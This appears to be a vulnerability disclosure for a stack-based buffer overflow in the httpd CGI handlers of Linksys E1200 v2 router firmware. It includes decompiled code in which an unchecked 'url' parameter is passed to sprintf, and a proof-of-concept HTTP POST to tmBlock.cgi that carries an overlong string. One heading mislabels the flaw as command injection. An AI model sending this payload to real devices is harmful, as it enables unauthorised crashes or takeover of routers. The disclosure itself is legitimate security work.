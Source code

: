 # Buffer Overflow Vulnerability in `url`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Linksys E1200 v2 Router                                      |
| Firmware Version     | **E1200_v2.0.11.001_us.tar.gz**                              |
| Vulnerability Type   | **Stack-Based Buffer Overflow**                              |
| Vulnerable Component | `httpd` (functions `apply_cgi` & `block_cgi`, buffers `v36`, `v29`) |
| Prerequisites        | No authentication required; remote exploitation possible via CGI parameter `url` |

2. Exploitation Path

```c
int __fastcall apply_cgi(int a1, int a2, int a3, int a4, int a5, const char *a6, int a7)
{
  ...
  char v36; // [sp+28h] [-810h] BYREF
  ...
  if ( a6 )
  {
    if ( !strcmp(a6, "tmBlock.cgi") )
    {
      v36 = 0;
      memset(v37, 0, sizeof(v37));
      v17 = (const char *)get_cgi((int)"url");
      sprintf(&v36, "http://%s", v17);
      ...
    }
    if ( !strcmp(a6, "hndBlock.cgi") )
    {
      v36 = 0;
      memset(v37, 0, sizeof(v37));
      v22 = (const char *)get_cgi((int)"url");
      sprintf(&v36, "http://%s", v22);
      ...
}
  
int __fastcall block_cgi(int a1, int a2, int a3, int a4, int a5, const char *a6, int a7)
{
  ...
  char v29; // [sp+28h] [-800h] BYREF
  ...
  if ( !strcmp(a6, "tmBlock.cgi") )
  {
    v29 = 0;
    memset(v30, 0, sizeof(v30));
    v9 = (const char *)get_cgi((int)"url");
    sprintf(&v29, "http://%s", v9);
    ...
}
```

3. **Vulnerable Binaries:** `httpd`.
4. 0-Day Command Injection Exploitation Path:
   - In the `httpd` file, at line 12, `v17 = (const char *)get_cgi((int)"url")` receives data via `get_cgi` without any length restriction. At line 13, `sprintf(&v36, "http://%s", v17)` concatenates the string, where the buffer `v36` is only a single byte. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
   - In the `httpd` file, at line 20, `v22 = (const char *)get_cgi((int)"url")` receives data via `get_cgi` without any length restriction. At line 21, `sprintf(&v36, "http://%s", v22)` concatenates the string, where the buffer `v36` is only a single byte. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
   - In the `httpd` file, at line 34, `v9 = (const char *)get_cgi((int)"url")` receives data via `get_cgi` without any length restriction. At line 35, `sprintf(&v29, "http://%s", v9)` concatenates the string, where the buffer `v29` is only a single byte. An attacker can send specially crafted CGI parameters, resulting in a buffer overflow vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/tmBlock.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 200

url=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```